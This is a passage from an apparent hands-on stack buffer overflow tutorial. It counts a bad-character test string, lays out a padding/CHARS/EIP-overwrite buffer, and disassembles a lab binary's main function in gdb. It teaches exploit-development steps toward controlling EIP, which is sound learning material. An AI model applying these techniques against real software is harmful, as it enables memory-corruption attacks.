 To calculate the number of bytes in our CHARS variable, we can use bash by replacing the "\\x" with space and then use `wc` to count the words.

#### Calculate CHARS Length

Calculate CHARS Length

```shell-session
Gaurav Raj@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w

256
```

This string is `256` bytes long. So we need to calculate our buffer again.

##### Notes

Notes

```shell-session
Buffer = "\x55" * (1040 - 256 - 4) = 780
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

Now let us have a look at the whole main function. Because if we execute it now, the program will crash without giving us the possibility to follow what happens in the memory. So we will set a breakpoint at the corresponding function so that the execution stops at this point, and we can analyze the memory's content.

Notes

```shell-session
(gdb) disas main
Dump of assembler code for function main:
   0x56555582 <+0>: 	lea    ecx,[esp+0x4]
   0x56555586 <+4>: 	and    esp,0xfffffff0
   0x56555589 <+7>: 	push   DWORD PTR [ecx-0x4]
   0x5655558c <+10>:	push   ebp
   0x5655558d <+11>:	mov    ebp,esp
   0x5655558f <+13>:	push   ebx
   0x56555590 <+14>:	push   ecx
   0x56555591 <+15>:	call   0x56555450 <__x86.get_pc_thunk.bx>
   0x56555596 <+20>:	add    ebx,0x1a3e
   0x5655559c <+26>:	mov    eax,ecx
   0x5655559e <+28>:	mov    eax,DWORD PTR [eax+0x4]
   0x565555a1 <+31>:	add    eax,0x4
   0x565555a4 <+34>:	mov    eax,DWORD PTR [eax]
   0x565555a6 <+36>:	sub    esp,0xc
   0x565555a9 <+39>:	push   eax
   0x565555aa <+40>:	call   0x5655554d <bowfunc>		# <---- bowfunc Function
   0x565555af <+45>:	add    esp,0x10
   0x565555b2 <+48>:	sub    esp,0xc
   0x565555b5 <+51>:	lea    eax,[ebx-0x1974]
   0x565555bb <+57>:	push   eax
   0x565555bc <+58>:	call   0x565553e0 <puts@plt>
   0x565555c1 <+63>:	add    esp,0x10
   0x565555c4 <+66>:	mov    eax,0x1
   0x565555c9 <+71>:	lea    esp,[ebp-0x8]
   0x565555cc <+74>:	pop    ecx
   0x565555cd <+75>:	pop    ebx
   0x565555ce <+76>:	pop    ebp
   0x565555cf <+77>:	lea    esp,[ecx-0x4]
   0x565555d2 <+80>:	ret    
End of assembler dump.
```
